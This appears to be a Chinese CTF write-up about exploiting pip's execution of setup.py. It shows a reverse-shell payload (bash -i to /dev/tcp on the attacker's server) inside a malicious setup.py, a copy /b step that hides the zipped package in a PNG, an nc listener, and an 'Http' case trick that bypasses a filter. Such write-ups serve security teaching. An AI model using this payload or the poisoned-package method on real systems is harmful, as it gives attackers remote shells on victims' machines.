

**题目描述**

​    

根据搜索该题为RCE漏洞的利用，本题的主要原理就是pip在下载包以后，会自动进行解压然后执行setup.py文件，那么可以人为构造一个带有恶意代码的setup.py文件，然后把该文件压缩，和png图片合在一起上传至公网服务器上，当题目执行pip安装包时，会触发我们自己构建的setup.py文件中的代码。

解题需求：要求一台具有稳定ipv4地址并开启web服务的服务器；

一、构建恶意图片

1、随便找一张图片；

2、构建反弹shell，使出题服务器使用pip安装时自动与我们的服务器建立tcp连接

```python
__import__('os').system("bash -c 'bash -i >& /dev/tcp/自己服务器IP地址/端口号 0>&1'")
# 解释：
# bash -c  "cmd string"  接的是shell命令字符串，用引号括起来，运行后面的命令；
# bash -i 创建一个交互式bash进程
# >&    将标准输入和标准错误输出重定向到文件/dev/tcp/自己服务器IP地址/端口号;
# /dev/tcp/自己服务器IP地址/端口号 一个特殊的设备，打开了这个文件相当于发出了一个socket调用，建立一个socket连接;
# 0>&1 将标准输入重定向到标准输出,使我们既能进行输入，又能看到输出
# 注意服务器的端口一定要是开放的
```


将上面的代码放入setup.py中，然后创建一个文件夹（名字英文任取），将setup.py放入文件夹，然后压缩文件夹，得到文件夹.zip

3、在windows电脑的cmd窗口上用命令

```powershell
copy /b tupian.png + 文件夹.zip tupian.png 
```

二、上传图片至服务器网站目录

需注意上传的图片一定要能正常访问，可以在浏览器上测试。

三、开始解题

1、现在服务器上使用nc命令监听端口（至于为什么是nc。。咳咳）

```shell
sudo nc -lvn 端口
```


2、然后用nc连接题目给出的地址



这里发现题目过滤了http，尝试使用Http绕过，等待一会儿发现在我们的服务器上已经连接上，说明成功，接下来就是一系列测试命令最总发现flag：flag{a262d436-704d-402b-881d-c487d7cf945f}


